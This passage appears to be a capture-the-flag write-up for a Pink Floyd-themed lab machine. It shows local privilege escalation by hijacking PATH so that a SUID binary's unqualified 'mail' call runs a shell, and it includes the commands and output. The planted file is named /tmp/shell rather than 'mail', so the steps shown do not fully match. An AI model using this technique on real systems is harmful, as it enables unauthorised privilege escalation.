 </table>
</div>

### Account: RichardWright 

<code>su - RichardWright</code> was possible using the above credentials. 

Local enumeration discovered the SUID binary
<code>/usr/local/bin/shineon</code>, running the binary through
<code>strings</code> discovered it called the program <code>mail</code> without
specifying the absolute path. 

Strings output: 

{% highlight bash %}
load_menu
Time - The Dark Side of the Moon
/usr/bin/cal
Press ENTER to continue.
Echoes - Meddle
/usr/bin/who
Is There Anybody Out There? - The Wall
/sbin/ping -c 3 www.google.com
Keep Talking- The Division Bell
mail
{% endhighlight %}

### PATH Manipulation 

The following file was created: 

{% highlight bash %}
/bin/echo "/bin/sh" > /tmp/shell
{% endhighlight %}

Changed directory to <code>/tmp</code> and PATH set to . 

{% highlight bash %}
cd /tmp
export PATH=.
{% endhighlight %} 

Execution of option 4 executed the mail script successfully. 

{% highlight bash %}
$ /usr/local/bin/shineon
Menu

1. Calendar
2. Who
3. Check Internet
4. Check Mail
5. Exit
4
Keep Talking- The Division Bell
$ /usr/bin/id
uid=1003(RichardWright) euid=1004(DavidGilmour) gid=1003(RichardWright)
groups=1003(RichardWright)
{% endhighlight %}
